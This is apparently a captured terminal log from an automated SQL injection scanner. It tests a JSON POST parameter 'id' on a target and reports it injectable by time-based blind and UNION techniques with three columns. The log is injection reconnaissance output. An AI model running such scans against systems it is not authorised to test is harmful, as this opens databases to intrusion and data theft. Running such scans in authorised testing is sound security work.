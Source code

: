 ```bash
[18:27:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:27:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:27:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:27:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:27:18] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:27:18] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[18:27:18] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:27:18] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:27:18] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:27:19] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:27:19] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[18:27:19] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[18:27:19] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[18:27:20] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[18:27:20] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:27:20] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[18:27:20] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[18:27:21] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[18:27:21] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[18:27:21] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[18:27:22] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[18:27:22] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[18:27:23] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[18:27:23] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[18:27:23] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[18:27:23] [INFO] testing 'MySQL inline queries'
[18:27:24] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:27:24] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:27:24] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:27:24] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:27:24] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[18:27:25] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[18:27:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:27:36] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:27:36] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:27:36] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:27:37] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:27:38] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[18:27:49] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[18:27:54] [INFO] testing 'Generic UNION query (42) - 21 to 40 columns'
[18:27:59] [INFO] testing 'Generic UNION query (42) - 41 to 60 columns'
[18:28:05] [INFO] testing 'Generic UNION query (42) - 61 to 80 columns'
[18:28:09] [INFO] testing 'Generic UNION query (42) - 81 to 100 columns'
```